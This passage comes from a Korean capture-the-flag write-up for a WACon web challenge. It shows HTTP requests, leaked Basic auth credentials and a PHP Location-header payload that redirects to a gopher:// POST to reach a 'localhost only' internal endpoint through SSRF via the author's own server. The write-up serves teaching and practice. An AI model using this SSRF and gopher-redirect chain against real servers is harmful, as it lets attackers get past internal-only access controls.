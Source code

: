 즉 admin:WACon{Try_using_Gophhhher 이 로그인이 되는 것이다. 누가봐도 “WACon{Try_using_Gophhhher”는 Flag 포멧이었는데 약간 엉성해보인다. 그 이유는 ‘}’로 닫혀 있지 않아서였는데, 로그인을 시도해보았다.

```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Authorization: Basic YWRtaW46V0FDb257VHJ5X3VzaW5nX0dvcGhoaGhlcg==
Content-Length: 7

asd=asd

[ Response ]
HTTP/1.1 200 OK
...

from localhost only !
```

그렇다… 또 SSRF를 해야하는 것이다. 그러나 요기서 SSRF는 조금 다르다. 몇가지 특징이 있는데, 그 특징들은 다음과 같다.

1. Authorization Header가 넘어가야한다는 것
2. POST 방식으로 data도 넘어가야한다는 것

이 두가지를 만족시켜주는 것은 gopher 프로토콜이다. gopher 프로토콜은 `gopher://` 처럼 사용하여 뒤에 경로, Request Method, Header들을 덧붙여 요청할 수 있다. 앞서 SSRF 방식 2가지 중 2번째인 Response Header에 gopher Location 헤더를 넣어 서버를 구동하였다.

- Gopher Post 참고 : [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher)
- !!주의!! : Host, Port, 그리고 Accpet 모두 아래와 같이 있어야한다. (Port는 상황에 따라 다름)

```php
<?php 
header("Location: gopher://127.0.0.1:80/_POST%20/internal_1d607d2c193b.php%20HTTP/1.1%0D%0AHost:%20127.0.0.1%0D%0AAccept:%20application/gopher%0D%0AAuthorization:%20Basic YWRtaW46V0FDb257VHJ5X3VzaW5nX0dvcGhoaGhlcg==%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%207%0D%0A%0D%0Aasd=asd"); 
?>
```

그리하여 마지막으로 요청을 보내보면 아래와 같다. (요기서 요청 IP는 gopher Redirection을 사용한 내 서버다)

```
[ Request ]
POST /index.phtml?fun_004ded7246=load HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744; USER=admin; X-TOKEN=9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4; 
X-HTTP-Host-Override: 127.0.0.1

url=http://118.67.129.97

[ Response ]
HTTP/1.1 200 OK
...

</form>
HTTP/1.1 200 OK
Date: Sun, 26 Jun 2022 14:55:25 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 135
Content-Type: text/html; charset=UTF-8

<main role="main" class="container">
```